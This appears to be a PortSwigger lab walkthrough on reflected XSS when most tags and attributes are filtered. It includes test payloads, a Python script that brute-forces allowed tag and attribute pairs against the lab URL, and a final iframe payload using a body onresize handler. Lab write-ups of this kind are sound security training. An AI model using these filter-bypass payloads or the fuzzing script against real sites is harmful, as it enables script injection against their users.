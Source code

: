 # Reflected XSS into HTML context with most tags and attributes blocked

In this challenge, we need to perform a Refelcted XSS attack in a site that applying filtering on most html tags and attributes.

Just like most challenges before, we're going to perform this attack in the search bar. Now let's try with some tags that we use as attacking attempts:

```html
<script>alert(1)</script>
<img src='x' onerror=alert()>
```

Result:
<img style="margin-top: 20px;" src="https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20XSS%20to%20perform%20CSRF/Account.png?raw=true" alt="common-tag-attempt">

Seems like we're not able to use common tags. So i tried other tags and found out that ``<body>`` tag was allowed. Next thing we need to find is all attribute that allowed. We can find them in [Portswigger XSS CheatSheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

I create a python script that perform a bruteforce on attribute, to see which one was allowed. Here are attributes we able to use:
- onratechange
- onscrollend
- onbeforeinput
- onresize

Actually we can perform the attack with only combination of body tag and 4 attributes we found. But I want to know if there's any tag we able to use other than body tag. here my final code to find which combination is the best:

```python
import requests as req

#list of attribute that we able to use after bruteforce attribute
attribute = {"onratechange","onscrollend","onbeforeinput","onresize"}

#list of tags that possible to use
tags = {"a","abbr","acronym","address","applet","area","article","aside","audio","b","base","bdi","bdo","big","blink","blockquote","body","br","button","canvas","caption","center","cite","code","col","colgroup","command","content","data","datalist","dd","del","details","dfn","dialog","dir","div","dl","dt","element","em","embed","fieldset","figcaption","figure","font","footer","form","frame","frameset","h1","head","header","hgroup","hr","html","i","iframe","image","img","input","ins","kbd","keygen","label","legend","li","link","listing","main","map","mark","marquee","menu","menuitem","meta","meter","multicol","nav","nextid","nobr","noembed","noframes","noscript","object","ol","optgroup","option","output","p","param","picture","plaintext","pre","progress","q","rb","rp","rt","rtc","ruby","s","samp","script","section","select","shadow","slot","small","source","spacer","span","strike","strong","style","sub","summary","sup","svg","<svg><animate>","<svg><animatemotion>","<svg><animatetransform>","<svg><set>","table","tbody","td","template","textarea","tfoot","th","thead","time","title","tr","track","tt","u","ul","var","video","wbr","xmp",
}


def bruteTagAttribute(tag,attr):
    payload = f"<{tag} {attr}=print()></{tag}>"
    r = req.get(f"https://0ace000303a0e49180ffdf7a00cb0021.web-security-academy.net/?search={payload}")
    if(r.status_code == 200):
        print(payload)
    
for tag in tags:
    for attr in attribute:
        bruteTagAttribute(tag, attr)
```
well, in the end, the combinations was still body tag and those 4 attributes. Here are lists of combination that we able to use:

```html
<body onscrollend=print()></body>
<body onresize=print()></body>
<body onratechange=print()></body>
<body onbeforeinput=print()></body>
```
I directly use **``onresize()``** event handling to apply the attack. It will trigger the **``print()``** function when the user windows resized (we can trigger it without their action).

Insert the payload on the exploit server then deliver it:
```html
<iframe src="https://0ace000303a0e49180ffdf7a00cb0021.web-security-academy.net/?search=<body onresize=print()></body>" onload=this.width='200px'></iframe>
```

Result:
<img style="margin-top: 20px;" src="https://github.com/DJumanto/Portswigger-XSS/blob/main/Exploiting%20XSS%20to%20perform%20CSRF/Account.png?raw=true" alt="Result">